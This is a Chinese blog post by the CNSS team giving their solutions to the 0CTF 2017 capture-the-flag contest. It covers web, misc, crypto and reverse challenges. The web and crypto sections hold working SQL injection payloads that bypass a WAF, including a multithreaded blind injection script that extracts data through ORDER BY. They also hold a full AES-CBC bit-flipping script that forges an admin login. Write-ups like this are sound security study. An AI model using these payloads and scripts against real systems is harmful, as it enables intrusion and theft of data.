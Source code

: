 ```yaml
---
title: 0ctf2017 writeup from cnss
pubDatetime: 2017-03-19 20:00:00
tags:
  - ctf
description: Already Archive Before 20230604
postSlug: archive_0ctf2017_writeup
---
```


结果高校第 9, 水啊

<!--more-->

### Web

#### simplesqlin

`id`先丢 sqlmap,发现能跑出来数据库名`news`

`order by 4` 500, `order by 3`正常

绕 waf 试试看, 发现简单的 select,from 通过%0b 即可绕过

`select` -> `sele%0bct`

直接 `id=-1 union sel%0bect 1,flag,3 fro%0bm news.flag`猜测表名和字段为 flag

`flag{W4f_bY_paSS_f0R_CI}`

#### Temmo's Tiny Shop

中午起床解这个题, login 那里上午有 bug,直接 admin 密码空可以进(其实这里面有竞争条件去买 8000 的 hint),看到 info 提示的内容(中间还换过一个表名)

`OK! Now I will give some hint: you can get flag by use \`select flag from ce63e444b0d049e9c899c9a0336b3c59\``

然后写个脚本测试一下 waf 的字符

```python
#!/usr/bin/python3
import re
import string
import requests as r

url = 'http://202.120.7.197/app.php?action=search&keyword=INT&order='
headers = {
	'Cookie': "PHPSESSID=tbuidum4os7k89q7dun6oms200",
}
NOWAF = []
WAF = []
for i in string.punctuation + string.ascii_letters:
	getter = r.get(url + i, headers=headers).text
	if 'error occurs or no result here' in getter:
		NOWAF.append(i)
		print('NoWAF: ' + i)
	elif 'WAF' in getter:
		WAF.append(i)
		print('WAF: ' + i)
	else:
		print(getter)
		exit()
print(WAF)
print(NOWAF)
```

发现只有`#,()`和字母可以用,关键词没测,用的时候再说

尝试了一些传参数的位置, 因为不能单引号, 也绕不过这个 waf, 下手只能在搜索的`order`位置上,先通过`=1`和`=id`确认是`order by`注入,通过顺序不同考虑 bool 注入

注册一个新号防干扰, 买 1600 和 300 的, 通过利用`field(price, 1600, 300)`和`field(price, 1600, 1)`返回的 goods 顺序不同,构造 payload

`order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))`

因为是 like, 不跑 2 分, 上多线程

```python
import requests as r
import gevent
from gevent.monkey import *

url = 'http://202.120.7.197/app.php?action=search&keyword=&order=field(price,1600,if(mid((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),%d,1)like(%s),300,1))'
def run(k):
#	print('----%d----' % k)
	a = 0
	for i in range(0, 255):
		if a == 4:
			break
		s = r.get(url % (k,hex(i)), headers=headers).text
	#	print(s)
		if '"goods":[{"id":"6","' not in s:
			print('%d: %s' % (k, chr(i)))
			a += 1
		else:
			continue

gevent.monkey.patch_socket()
gevent.monkey.patch_ssl()

threads = [gevent.spawn(run, i) for i in range(6,31)]
gevent.joinall(threads)
```

拿到每一位去掉`%_`,得到大小写不明的`flag{r4ce c0nditi0n i5 excited}`

尝试用 ascii 判断 ascii 码, 发现(长度)被 WAF, 先试一下 flag 对不对再说

中间补上`_`, 小写尝试一下, flag 正确

### Misc

#### Welcome

IRC 即时聊天，访问 freenode 网站进入聊天室，获得 flag
http://webchat.freenode.net/?randomnick=0&channels=#0ctf2017

### Crypto

#### integrity

题目流程：

1. 首先随机 key
2. register： 输入 name，首先对 name 补足后缀，随机 iv，返回 AES_CBC( md5(name) || name ) 作为 secret
3. login： 用户输入 secret，按 register 逆着解码得到 name，若为 admin，则给出 flag

其中限制：输入的 name 长度不大于 32，且对 name 有 strip() 操作。

我们的目标为 admin，对此构造 name，并预先计算补全与 md5 值。

```python
name = "admin" + "\x0b" * 11 + suffix  # suffix 为任意长度小于 16 的字符串，我取的是 suffix = "admin"）
goal = "admin"  # 目标为 admin

pad_name = pad(name)  # "admin" + "\x0b" * 11 + "admin" + "\x0b" * 11
pad_goal = pad(goal)  # "admin" + "\x0b" * 11

md5_name = md5(name).digest()
md5_goal = md5(goal).digest()
```

提交 name 后获得一个代表了 64 字节的 secret，取出 iv 和 前两组密文，即前 48 字节，有一组 iv，一组 md5 值，一组一半的 name（即 pad_goal）。
其中第三组已符合要求，对于第二组，修改第一组的 iv 进行比特翻转攻击：iv = iv ⊕ md5_name ⊕ md5_goal
三组重新组合后 login 即可获取 flag

完整脚本：

```python
import hashlib
import socket
import time
import binascii


BS = 16
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)
def md5(s):
    return hashlib.md5(s.encode()).digest()
def send(m):
    if isinstance(m, str):
        m = m.encode()
    print("send:", m)
    s.send(m)
def rec():
    m = s.recv(1024)
    print("recv:", m)
    return m


s = socket.socket()
s.connect(('202.120.7.217', 8221))
time.sleep(0.5)
md5_goal = [int(x) for x in md5("admin" + "\x0b" * 11)]
md5_name = [int(x) for x in md5("admin" + "\x0b" * 11 + "admin" + "\x0b" * 11)]

rec()
send("r\n")
send("admin" + "\x0b" * 11 + "admin\n")
rec()

data = rec().decode().replace('\n', '')
secret = [0] * 48
for i in range(0, 48):
    secret[i] = int(data[(i << 1): (i << 1) + 2], 16)
new_secret = [secret[i] ^ md5_goal[i] ^ md5_name[i] for i in range(16)] + secret[16:]
ans = b""
for x in new_secret:
    ans += bytes([x])

send("l\n")
send(binascii.b2a_hex(ans) + b"\n")
rec()
rec()
s.close()

```

### Reverse

#### Choices

看了一下 text 里的命令行，这是是一个 pass，llvm 的 pass，估计是做混淆的，看到 flatten 这个函数名，估计是拿 ollvm 改了改，获得源码一对照就知道改了什么地方。

Flatten 算法实现http://ac.inf.elte.hu/Vol_030_2009/003.pdf ,他修改的地方就是原本自动修改的控制控制流的值变成由用户输入了，那么我还原出这个值序列即可，通过逆向我们知道了值序列的生成算法，那么我们就可以生成一个值序列了。以这个作为输入即可。
